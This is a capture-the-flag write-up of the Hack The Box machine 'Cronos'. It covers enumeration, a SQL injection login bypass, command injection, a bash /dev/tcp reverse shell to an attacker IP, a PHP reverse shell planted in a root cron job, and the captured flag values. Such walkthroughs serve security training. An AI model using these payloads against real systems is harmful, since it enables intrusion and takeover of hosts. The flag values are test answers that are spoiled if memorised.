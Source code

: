 ## HTB: Cronos  
**OS:** Linux  
**Difficulty:** Medium  

---

## Engagement Overview
- **Target:** Cronos  
- **Box IP:** 10.10.10.13  
- **Local IP:** 10.10.14.10  
- **Date:** 2025-07-12  

---

## Objectives
- Exploit SQL injection vulnerability
- Achieve shell access and escalate to root via cron job abuse

---

## Service Enumeration

### Nmap
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

- **Gobuster:** No useful results  
- **DNS Info (dig):**
  ```
  cronos.htb. 604800 IN SOA cronos.htb. admin.cronos.htb.
  ```

---

## Exploitation

### Initial Access

**Vulnerability:**  
- SQL Injection on `admin.cronos.htb` login form  
- Payload: `' OR 1=1-- -`  

**Confirmation:**  
Ping test to attacker IP succeeded:
```
PING 10.10.14.10 (10.10.14.10): 64 bytes from 10.10.14.10: time=43.6 ms
```

**Command Injection:**  
Using Burp Suite Repeater:
```
command=ls+-l&host=/var/www
```
Response:
```
drwxr-xr-x  2 www-data www-data 4096 May 10 2022 admin
drwxr-xr-x  2 www-data www-data 4096 May 10 2022 html
drwxr-xr-x 13 www-data www-data 4096 May 10 2022 laravel
```

**Reverse Shell Payload:**  
```bash
command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.24/443+0>%261'%26host=
```

Shell acquired as `www-data`.

---

## Privilege Escalation

### Enumeration
- Discovered cron job running Laravel scheduler:
  ```
  * * * * * root php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
  ```

### Exploitation
- Poisoned artisan job to execute PHP reverse shell:
```php
$sock=fsockopen("10.10.14.10", 443);
exec("/bin/sh -i <&3 >&3 2>&3");
```

- Shell established as `root`.

---

## House Cleaning
- Removed:
  - `linpeas.sh`
  - Malicious code from Laravel artisan
- No additional uploads or tools left behind

---

## Post-Exploitation

### Credentials & Flags
- `user.txt`: `e053208bdfc3ad87d7d492285a15512a`  
- `root.txt`: `d800ebbbb59fee6c01e6e2f208e41416`

---

## Tools Utilized
- Burp Suite
- linPEAS
- netcat / listener

---

## Key Takeaways
- linPEAS highlighted numerous other potential vulnerabilities, but only the cron job was exploited
- This box served as good hands-on training for:
  - Manual SQL injection
  - Laravel-based cron job abuse
  - Gaining shell via Burp Suite command injection